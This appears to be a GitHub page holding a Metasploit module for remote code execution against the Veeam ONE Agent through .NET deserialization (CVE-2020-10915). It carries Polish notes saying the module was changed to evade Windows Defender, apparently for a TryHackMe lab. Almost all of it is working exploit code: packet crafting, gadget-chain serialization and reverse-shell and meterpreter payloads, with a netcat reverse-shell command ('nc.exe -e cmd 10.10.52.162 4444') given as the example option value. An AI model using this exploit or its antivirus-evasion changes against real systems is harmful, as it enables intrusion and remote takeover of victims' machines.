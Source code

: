 # SET-THM-SCRIPT-Veeam.One.Agent.Servic-
Orginalny Scrypt w danym przypadku nie działał, ponieważ blokowany jest przez Defendera. Dodałem do kodu payload "windows/x64/exec" aby ominąć defendera.
Kod który zmodyfikowałem do metasploita pod kątem windows defendera FLAG3.



class MetasploitModule < Msf::Exploit::Remote

  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::CmdStager
  include Msf::Exploit::Powershell

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Veeam ONE Agent .NET Deserialization',
        'Description' => %q{
          This module exploits a .NET deserialization vulnerability in the Veeam
          ONE Agent before the hotfix versions 9.5.5.4587 and 10.0.1.750 in the
          9 and 10 release lines.

          Specifically, the module targets the HandshakeResult() method used by
          the Agent. By inducing a failure in the handshake, the Agent will
          deserialize untrusted data.

          Tested against the pre-patched release of 10.0.0.750. Note that Veeam
          continues to distribute this version but with the patch pre-applied.
        },
        'Author' => [
          'Michael Zanetta', # Discovery
          'Edgar Boda-Majer', # Discovery
          'wvu' # Module
        ],
        'References' => [
          ['CVE', '2020-10914'],
          ['CVE', '2020-10915'], # This module
          ['ZDI', '20-545'],
          ['ZDI', '20-546'], # This module
          ['URL', 'https://www.veeam.com/kb3144']
        ],
        'DisclosureDate' => '2020-04-15', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => 'win',
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => false,
        'Targets' => [
          [
            'Windows Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd,
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
            }
          ],
          [
            'Windows Dropper',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :win_dropper,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter_reverse_tcp'
            }
          ],
	  [
            'Windows custom Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd1,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/exec'
            }
          ],


          [
            'PowerShell Stager',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :psh_stager,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
            }
          ]
        ],
        'DefaultTarget' => 2,
        'DefaultOptions' => {
          'WfsDelay' => 10
        },
        'Notes' => {
          'Stability' => [SERVICE_RESOURCE_LOSS], # Connection queue may fill?
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )

    register_options([
      Opt::RPORT(2805),
      OptString.new(
        'CMD',
        [
          true,
          'np: (C:\Temp\nc.exe -e cmd 10.10.52.162 4444)',
          
        ]
      ),
      OptString.new(
        'HOSTINFO_NAME',
        [
          true,
          'Name to send in host info (must be recognized by server!)',
          'AgentController'
        ]
      )
    ])
  end

  def check
    vprint_status("Checking connection to #{peer}")
    connect

    CheckCode::Detected("Connected to #{peer}.")
  rescue Rex::ConnectionError => e
    CheckCode::Unknown("#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def exploit
    print_status("Connecting to #{peer}")
    connect

    print_status("Sending host info to #{peer}")
    sock.put(host_info(datastore['HOSTINFO_NAME']))

    res = sock.get_once
    vprint_good("<-- Host info reply: #{res.inspect}") if res

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :win_cmd1
      execute_command(datastore['CMD'])
    when :win_cmd
      execute_command(payload.encoded)
    when :win_dropper
      # TODO: Create an option to execute the full stager without hacking
      # :linemax or calling execute_command(generate_cmdstager(...).join(...))
      execute_cmdstager(
        flavor: :psh_invokewebrequest, # NOTE: This requires PowerShell >= 3.0
        linemax: 9001 # It's over 9000
      )
    when :psh_stager
      execute_command(cmd_psh_payload(
        payload.encoded,
        payload.arch.first,
        remove_comspec: true
      ))
    end
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def execute_command(cmd, _opts = {})
    vprint_status("Serializing command: #{cmd}")

    serialized_payload = Msf::Util::DotNetDeserialization.generate(
      cmd,
      gadget_chain: :TextFormattingRunProperties,
      formatter: :BinaryFormatter # This is _exactly_ what we need
    )

    print_status("Sending malicious handshake to #{peer}")
    sock.put(handshake(serialized_payload))

    res = sock.get_once
    vprint_good("<-- Handshake reply: #{res.inspect}") if res
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  end

  def host_info(name)
    meta = [0x0205].pack('v')
    packed_name = [name.length].pack('C') + name

    pkt = meta + packed_name

    vprint_good("--> Host info packet: #{pkt.inspect}")
    pkt
  end

  def handshake(serialized_payload)
    # A -1 status indicates a failure, which will trigger the deserialization
    status = [-1].pack('l<')

    length = status.length + serialized_payload.length
    type = 7
    attrs = 1
    kontext = 0

    header = [length, type, attrs, kontext].pack('VvVV')
    padding = "\x00" * 18
    result = status + serialized_payload

    pkt = header + padding + result

    vprint_good("--> Handshake packet: #{pkt.inspect}")
    pkt
  end
  
  
